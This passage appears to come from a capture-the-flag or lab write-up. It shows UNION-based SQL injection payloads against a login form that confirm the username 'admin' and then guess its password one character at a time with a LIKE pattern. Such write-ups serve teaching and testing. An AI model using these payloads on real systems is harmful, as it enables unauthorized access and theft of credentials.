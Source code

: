 ![username found](images/25-username-found.png)<br/>
I've found username `admin`<br/>

    admin123' UNION SELECT 1,2,3 from users where username='admin' and password like '3%
![finding password](images/26-finding-password.png)<br/>
As you can see here password character start with `3`<br/>

    admin123' UNION SELECT 1,2,3 from users where username='admin' and password like '3845%